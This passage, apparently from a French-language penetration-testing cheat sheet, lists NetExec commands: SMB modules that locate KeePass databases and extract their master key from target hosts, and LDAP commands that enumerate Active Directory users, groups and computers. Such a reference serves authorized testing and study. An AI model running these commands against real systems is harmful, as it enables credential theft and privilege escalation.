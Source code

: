 ```bash

# Rechercher des fichiers Keepass et tenter d'extraire la masterkey

netexec smb <cible> -u <user> -p <pass | -H hash> -M keepass_discover

netexec smb <cible> -u <user> -p <pass | -H hash> -M keepass_trigger -o KEEPASS_CONFIG_PATH="<chemin_trouvé>"

```

  

* **Contexte :** Extraction directe d'identifiants et de secrets depuis les systèmes cibles.

* **Usage :** Objectif principal de nombreuses attaques pour obtenir des identifiants et élever les privilèges.

  

---

  

### 📔 **Protocole LDAP** (Lightweight Directory Access Protocol)

  

*Utilisé pour interroger et interagir avec l'annuaire Active Directory.*

  

#### Énumération LDAP

  

```bash

# Énumération de base (infos domaine, DC)

netexec ldap <DC_cible> [-u <user> -p <pass | -H hash>]

  

# Lister les utilisateurs (avec descriptions si disponibles)

netexec ldap <DC_cible> [-u <user> -p <pass | -H hash>] --users

netexec ldap <DC_cible> [-u <user> -p <pass | -H hash>] -M get-desc-users

  

# Lister les groupes

netexec ldap <DC_cible> [-u <user> -p <pass | -H hash>] --groups

  

# Lister les ordinateurs

netexec ldap <DC_cible> [-u <user> -p <pass | -H hash>] --computers

```
